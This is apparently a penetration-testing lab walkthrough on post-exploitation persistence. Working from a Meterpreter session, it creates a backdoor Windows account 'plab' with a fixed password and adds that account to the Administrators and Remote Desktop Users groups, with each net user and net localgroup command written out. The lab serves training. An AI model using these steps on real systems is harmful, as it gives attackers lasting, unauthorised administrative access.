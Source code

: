 
grep and somemore grep enjoy :) 

Create a Backdoor User

After the exploitation of Windows (or any other system), the easiest method to gain access to it is by creating a user, which can be used as and when required. For example, you can use this account to access the system using Remote Desktop. There will be instances that the vulnerabilities that you exploited are now patched and closed. If you do not have a backdoor user, you will need to find a way to exploit the system again. With the user in existence, your life becomes easier.

In this task, you will create a backdoor user. To do this, perform the following steps:
Step 1

Ensure that you are connected to PLABKALI01, and Meterpreter session is open.

Press Ctrl + l to clear the screen.

You need to first open a shell to access the Windows command prompt. To do this, type the following command:

shell

Press Enter
Figure 1.17 Screenshot of PLABKALI01
Figure 1.17 Screenshot of PLABKALI01: Entering the shell command at the meterpreter prompt.

Step 2

The output of the shell command is displayed.
Figure 1.18 Screenshot of PLABKALI01
Figure 1.18 Screenshot of PLABKALI01: Showing the output of the shell command.

Step 3

You have access to the Windows command shell. You need to now create a user named plab. Type the following command:

net user plab Passw0rd /add

Press Enter
Figure 1.19 Screenshot of PLABKALI01
Figure 1.19 Screenshot of PLABKALI01: Entering the net user command to add a user named plab.

Step 4

The plab user is now created on PLABWIN810 system, which you have exploited.

Figure 1.20 Screenshot of PLABKALI01
Figure 1.20 Screenshot of PLABKALI01: Showing a new user added as the output of the net user command.

Step 5

You would want to retain the administrative control on the system. Therefore, it is wise to add the plab user to the local Administrators group. To do this, type the following command:

net localgroup administrators plab /add

Press Enter
Figure 1.21 Screenshot of PLABKALI01
Figure 1.21 Screenshot of PLABKALI01: Entering the command to add the plab user to the local administrators group.

Step 6

The plab user is now added to the Administrators group.

Figure 1.22 Screenshot of PLABKALI01
Figure 1.22 Screenshot of PLABKALI01: Showing the output of the net user command as user added to the local administrators group.

Step 7

For the plab user to log in to the system using Remote Desktop, you need to add it to the Remote Desktop Users group on the Windows system. To do this, type the following command:

net localgroup "Remote Desktop Users" plab /add

Press Enter.

Figure 1.23 Screenshot of PLABKALI01
Figure 1.23 Screenshot of PLABKALI01: Entering the net user command to add the plab user to the Remote Desktop Users group.

Step 8

The user plab is now added to the Remote Desktop Users group.

Figure 1.24 Screenshot of PLABKALI01
Figure 1.24 Screenshot of PLABKALI01: Showing the output of the net user command with the user added to the Remote Desktop Users group.

Keep the terminal window open.
